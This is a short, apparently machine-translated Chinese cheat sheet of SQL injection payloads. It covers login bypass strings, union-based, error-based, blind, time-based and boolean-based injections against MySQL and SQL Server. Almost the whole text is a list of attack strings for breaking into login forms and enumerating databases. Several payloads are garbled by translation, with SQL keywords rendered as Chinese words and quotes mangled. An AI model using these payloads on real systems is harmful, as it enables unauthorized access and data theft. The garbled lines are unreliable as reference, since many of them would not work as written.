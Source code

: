 绕过登录: 包含潜在 SQL 漏洞的登录屏幕和表单可以使用各种 SQLi 绕过。

*   管理员' #
*   管理员“#
*   admin')) #
*   '或 1=1 - +
*   '或 1=1 #
*   或
*   "或真-
*   "或 true - +
*   ’))还是真————
*   admin '或 1=1 或' ' ='
*   admin ')或(' 1'='1' -
*   admin ')或‘1 ' =‘1 '/*
*   admin ")或" 1"="1
*   ')或(' 1 ' = ' 1-

基于 Union:您可以执行一个或多个查询，并使用 Union 关键字在 MySQL 中将它们的结果附加到原始查询中。

*   '顺序按 1，睡眠(10)+
*   '工会选择@ @版本，睡眠(10)，3 - +
*   ' union select @@version，sleep(10)，3，“' 3 '”#-+

使用 information_schema.column 中的 ' union select 1，group_concat(column_name)，3 来获取列名。

基于错误: 您可以实现计数、下限和分组函数来生成错误。如果 MySQL 没有使用基于联合的查询显示输出，您可以使用这些函数。

(select count(*)，concat(0x3a，0x3a，(select database())，0x3a，0x3a，floor(rand()* 2))a from information _ schema . columns group by a)

枚举数据库，

'和(select 1 from (select count(*)，concat(0x3a，0x3a，(select database())，0x3

盲: 在盲 SQLi 中，我们永远无法确定页面上是否存在注入。所以，我们需要用其他技术。

如果基于其他:

'和 if((select database())= ' security '，sleep(10)，null) - +

'和 if((select substr(table_name，1，1)from information _ schema . tables 其中 table_schema=database() limit 0，1)='e '，sleep(10)，null) - +

基于睡眠:

'和睡眠(10) - +

’；等待延迟' 0:0:10' - +

’))；等待延迟' 0:0:10' - +

"和睡眠(10) - +

基于布尔:

和 1 > 2 - +

'和 1=1 - +

'和(ascii(substr(database()，1，1))) < 114 - +
